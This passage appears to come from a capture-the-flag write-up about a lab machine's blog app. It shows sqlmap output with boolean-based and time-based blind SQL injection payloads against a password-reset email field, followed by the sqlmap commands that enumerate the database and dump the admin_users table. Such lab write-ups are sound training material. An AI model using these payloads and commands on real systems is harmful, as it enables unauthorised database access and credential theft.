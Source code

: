 ```bash
    Type: boolean-based blind                                                                                                          
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: _token=hVLHhNo8cH0xZVVI82IE7chGS6zRPoBmpKy49wZh&email=hello@me.htb' AND EXTRACTVALUE(8014,CASE WHEN (8014=8014) THEN 8014 ELSE 0x3A END) AND 'CyMj'='CyMj

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: _token=hVLHhNo8cH0xZVVI82IE7chGS6zRPoBmpKy49wZh&email=hello@me.htb' AND 1790=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1) AND 'olwq'='olwq
---
[20:16:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12
[20:16:53] [INFO] fetching database names
[20:16:53] [INFO] fetching number of databases
[20:16:53] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[20:16:53] [INFO] retrieved: 3
[20:16:54] [INFO] retrieved: information_schema
[20:17:16] [INFO] retrieved: performance_schema
[20:17:35] [INFO] retrieved: usage_blog
```

Once I knew the databases, I have enumerated the tables

```bash
$ python3 sqlmap.py -r ../pass_reset.txt -p email --batch --level 5 --risk 2 --dbms=mysql -D usage_blog --tables

...snip...

Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+

$ python3 sqlmap.py -r ../pass_reset.txt -p email --batch --level 5 --risk 2 --dbms=mysql -D usage_blog -T admin_users --dump           

...snip...

[20:31:37] [INFO] retrieved: id                                                                                                        
[20:31:43] [INFO] retrieved: username                                                                                                  
```